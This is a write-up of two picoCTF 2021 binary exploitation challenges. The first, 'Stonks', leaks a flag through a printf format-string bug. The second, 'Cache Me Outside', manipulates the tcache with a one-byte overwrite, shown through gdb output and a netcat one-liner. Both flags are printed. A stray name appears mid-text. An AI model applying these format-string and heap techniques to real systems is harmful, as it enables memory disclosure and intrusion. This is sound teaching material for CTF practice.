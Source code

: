 # Category: Binary Exploitation

## Stonks

Points: 20

The source code takes us through creating an imaginary stock trading network client. The part that interests us is the function `buy_stonks`, which loads the flag into a char_array and then printf our API token input:

~~~~~c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
~~~~~

This printf call is vulnerable to a format string epxloit, and so we can simply print out values on the stack and see if we can locate the flag string.

Following a guide on pwntools, I was able to create a Python program that sends "%08x"*40 to the server as the API key and then print out the output. The padding parameter `08` is particularly important to get a nicely-formatted hex string.

~~~~~bash
[+] Opening connection to mercury.picoctf.net on port 6989: Done
[*] Viewing Portfolio...
[*] Sending Format String..
%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
[*] Received data:
081e83f00804b000080489c3f7ecbd80ffffffff00000001081e6160f7ed9110f7ecbdc700000000081e718000000002081e83d0081e83f06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3538613032356533ffb4007df7f06af8f7ed9440fc411e000000000100000000f7d68be9f7eda0c0f7ecb5c0f7ecb000ffb4f018f7d5958df7ecb5c008048ecaffb4f02400000000f7eedf09

[*] Closed connection to mercury.picoctf.net port 6989
~~~~~~~

When we try to decode this hex string, we notice that the endianess causes a group of every 4 characters to be swapped. We can use CyberChef to swap the endianess and decode the string:

~~~~~text
Output: ð....°..Ã....½ì÷ÿÿÿÿ....`a....í÷Ç½ì÷.....q......Ð...ð...picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}.´ÿøjð÷@.í÷..Aü........é.Ö÷À í÷Àµì÷.°ì÷.ð´ÿ..Õ÷Àµì÷Ê...$ð´ÿ....	ßî÷
~~~~~

flag: picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}

## Cache Me Outside

Points: 70

When we connect to the program via netcat, we see that it prompts us for an address to overwrite:

~~~~~bash
cache_me_outside$ nc mercury.picoctf.net 49825
You may edit one byte in the program.
Address: 0xefff8732
Value: t help you: this is a random string.
~~~~~

Here it didn\'t prompt me to put in a value and instead printed out a string, likely because I was asking for an address outside of the program\'s address space.

When we try to execute the local heapedit program we run into a segmentation fault. This error occured because the program is expecting a different version of libc than what we have on the computer. We can use a tool called `pwninit` (link: <https://github.com/io12/pwninit>) to help us download a linker for the program and patch it automatically. **Note:** Since the `cargo install` method was not working for me, I had to download the pwninit executable from the releases page and called to it from the command line (while also being in the directory containing heapedit).

We also need to create a file called flag.txt for the program to read into. After that, we can use patchelf to tell heapedit to use the newly-created linker program:

`patchelf  --set-interpreter ./ld-2.27.so ./heapedit`

Running ./heapedit should now trigger the program correctly.

If we open the ELF file in Ghidra\'s decompiler we could see some of the program\'s behavior more clearly:

1. At the start, it reads the contents of "flag.txt" into a supposed char array.
2. The program then allocates 7 chunks of 0x80 (128 bytes), For each chunk, it writes the string "Congrats! Your flag is: " and the contents of the flag file into that chunk.
3. The program then allocates one more chunk of size 0x80 and writes the string: "Sorry! This won't help you: This is a random string."
4. Afterwards, it frees the seventh chunk followed by the last malloc\'ed chunk.
5. It then prompts the user for an integer offset, which it adds to the address of the first chunk, and writes the provided integer value to that chunk.
6. Afterwards, the program malloc one more chunk of 0x80 size and prints the value inside that chunk to standard output.

**Note:** In the code the strings were encoded as hex, like the following:

~~~~~gdb
  *local_88 = 0x5420217972726f53;
  local_88[1] = 0x276e6f7720736968;
  local_88[2] = 0x7920706c65682074;
~~~~~

To figure out what the original value was we have to convert to little-endian formatting, and then decode it from hex to ASCII. (Link to CyberChef recipe: <https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',8,true)From_Hex('Auto')Decode_text('UTF-8%20(65001)'))>

If we now run the program and provide 0 for both the address and value, we can see we still get back "t help you: this is a random string.", which is the second chunk that we freed in step 4.

The reason why we are getting this chunk back is because once the chunk was freed, it was placed into the linked list of "tcache", which is a bin that stores recently freed chunk. As explained here: <https://guyinatuxedo.github.io/29-tcache/tcache_explanation/index.html>, chunks are added to and popped from tcache in a LIFO design, and so it's expected that we would get back the last chunk we freed.

Instead, we would like for the heap manager to give us one of the seven chunks which contains the flag.

First, we can open the program in gdb, set a breakpoint at the first free command and another one at the instruction after the second free, and inspect the heap at those poinds. Following a guide at <https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Cache_Me_Outside.md>, I decided to install `gef` script for GDB which allows me to run the nifty command `heap chunks` and `heap bins tcache` to view the chunk and tcache bins, respectively:

First breakpoint:

~~~~~~~~~~gdb
gef➤  heap chunks
Chunk(addr=0x602010, size=0x250, flags=PREV_INUSE)
    [0x0000000000602010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x602260, size=0x230, flags=PREV_INUSE)
    [0x0000000000602260     88 24 ad fb 00 00 00 00 a6 24 60 00 00 00 00 00    .$.......$`.....]
Chunk(addr=0x602490, size=0x1010, flags=PREV_INUSE)
    [0x0000000000602490     66 6c 61 67 7b 74 68 69 73 5f 69 73 5f 6d 79 5f    flag{this_is_my_]
Chunk(addr=0x6034a0, size=0x90, flags=PREV_INUSE)
    [0x00000000006034a0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603530, size=0x90, flags=PREV_INUSE)
    [0x0000000000603530     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x6035c0, size=0x90, flags=PREV_INUSE)
    [0x00000000006035c0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603650, size=0x90, flags=PREV_INUSE)
    [0x0000000000603650     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x6036e0, size=0x90, flags=PREV_INUSE)
    [0x00000000006036e0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603770, size=0x90, flags=PREV_INUSE)
    [0x0000000000603770     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603800, size=0x90, flags=PREV_INUSE)
    [0x0000000000603800     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603890, size=0x90, flags=PREV_INUSE)
    [0x0000000000603890     53 6f 72 72 79 21 20 54 68 69 73 20 77 6f 6e 27    Sorry! This won']
Chunk(addr=0x603920, size=0x1f6f0, flags=PREV_INUSE)  ←  top chunk
gef➤  heap bins tcache
─────────────────────────── Tcachebins for thread 1 ───────────────────────────
All tcachebins are empty
~~~~~~~~~~

Second Breakpoint:

~~~~~~gdb
gef➤  heap bins tcache
─────────────────────────── Tcachebins for thread 1 ───────────────────────────
Tcachebins[idx=7, size=0x90] count=2  ←  Chunk(addr=0x603890, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x603800, size=0x90, flags=PREV_INUSE) 
~~~~~~

We can see after the free commands there are now two chunks in the tcache bin, where the first chunk in the list is the chunk with the "Sorry! This won't help you: this is a random string." message. 

To exploit the program, we need to find whatever is pointing to that chunk's buffer address and change it. We do so using the `grep` command with escape characters:

~~~~~gdb
gef➤  grep '\\x90\\x38\\x60'
[+] Searching '\x90\x38\x60' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602088 - 0x602094  →   "\x90\x38\x60[...]" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffddd0 - 0x7fffffffdddc  →   "\x90\x38\x60[...]" 
~~~~~~

The entry we're looking for is likely the one at the address 0x602088. We can calculate the input address with the `p/d [variable]` command, which prints a variable as an signed integer:

~~~~~gdb
gef➤  p/d 0x602088 - 0x6034a0
$1 = -5144
~~~~~

Jason Padgett
Since the program allows us to edit one byte, we want to change the value of "\x90" to "\x00" so it will send us to the 0x603800 chunk instead. We could edit other bytes of the address, but this seems the most straightforward.

Altogether, we get the following one-line exploit:

~~~~~
grayhimakar@grayhimakar-VirtualBox:~/Documents/2021-picoctf/Binary_Exploitation/cache_me_outside$ ( echo "-5144"; echo -e "\x00";) | nc mercury.picoctf.net 49825
You may edit one byte in the program.
Address: Value: lag is: picoCTF{53be92758865dfd2779fa96526dbd0a3}
~~~~~

Flag: picoCTF{53be92758865dfd2779fa96526dbd0a3}